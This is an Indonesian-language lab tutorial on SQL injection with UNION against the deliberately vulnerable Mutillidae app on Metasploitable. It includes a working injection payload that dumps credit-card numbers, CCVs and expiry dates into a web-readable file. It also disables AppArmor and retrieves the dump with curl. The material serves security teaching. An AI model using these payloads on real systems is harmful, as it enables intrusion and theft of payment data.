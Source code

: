 ## Lesson 9 - SQL Injection Union Exploit \#2

### \# Penjelasan Database Union

* **Step 1** : Masuk ke dalam database Mutillidae di Metasploitable OS

```
su - root
mysql -uroot
use owasp10;
show tables;
```
didalam database terdapat tabel _accounts_ dan _credit_cards_. 2 tabel tersebut akan kita union kan. **UNION** adalah operasi penggabungan lebih dari satu hasil **SELECT** dalam SQL
![](/assets/lesson-9/database_union_1.JPG)

* **Step 2** : Melakukan operasi UNION

Operasi UNION menampilkan di terminal
```
select * from accounts where username RLIKE '^[0-9]' union select ccid, ccnumber, ccv, expiration, null from credit_cards;
```
![](/assets/lesson-9/database_union_2.JPG)

Operasi UNION mencetak di file yang berlokasi di **'/tmp/CCN.csv'**
```
select * from accounts where username RLIKE '^[0-9]' union select ccid,ccnumber,ccv,expiration,null from credit_cards INTO OUTFILE '/tmp/CCN.csv' FIELDS TERMINATED BY ',' OPTIONALLY ENCLOSED BY '"' LINES TERMINATED by '\n';
\! cat /tmp/CCN.csv
```
![](/assets/lesson-9/database_union_3.JPG)

### \# SQL Injection

* **Step 1** : Buka `http://10.151.36.64/mutillidae/` lalu masuk ke halaman user info. Pilih sidebar. OWASP Top 10 --&gt; A1 - SQL Injection --&gt; SQLi - Extract Data --&gt; User Info
  ![](/assets/lesson-7/VirtualBox_kali_19_12_2017_03_01_34.png)

* **Step 2** : Ubah ukuran text box username menjadi 100% menggunakan inspect element agar text box lebih panjang untuk menuliskan syntax SQL Injection.  
  ![](/assets/lesson-8/VirtualBox_kali_19_12_2017_20_37_43.png)

* **Step 3** : Matikan AppArmor pada Metasploitable OS dengan `sudo /etc/init.d/apparmor stop`
AppArmor dalam OS turunan Ubuntu berfungsi untuk membatasi resource dari aktivitas-aktivitas sistem. Hal ini agar MySQL memiliki akses read/write di directori web app.

* **Step 4** : Masukkan operasi sql di bawah di dalam textbox **Name** lalu tekan tombol _View Account Details_
```
' union select ccid,ccnumber,ccv,expiration,null from credit_cards INTO DUMPFILE '/var/www/mutillidae/CCN2.txt' FIELDS TERMINATED BY ',' OPTIONALLY ENCLOSED BY '"' LINES TERMINATED BY '\n' -- 
```
Dan jangan lupa untuk menambahkan 1 spasi diakhir, `"-- "`. Operasi ini adalah tidak akan menampilkan hasil, justru Authentication Error. Namun disisi lain akan membuat file **CCN2.txt**
![](/assets/lesson-9/injection_result.JPG)


* **Step 5** : Melihat hasil operasi dengan web browser `http://10.151.36.64/mutillidae/CCN2.txt` 
![](/assets/lesson-9/union_curl_2.JPG)


* **Step 6** : Melihat hasil operasi dengan web browser `curl --location 10.151.36.64/mutillidae/CCN2.txt`
![](/assets/lesson-9/union_curl_3.JPG)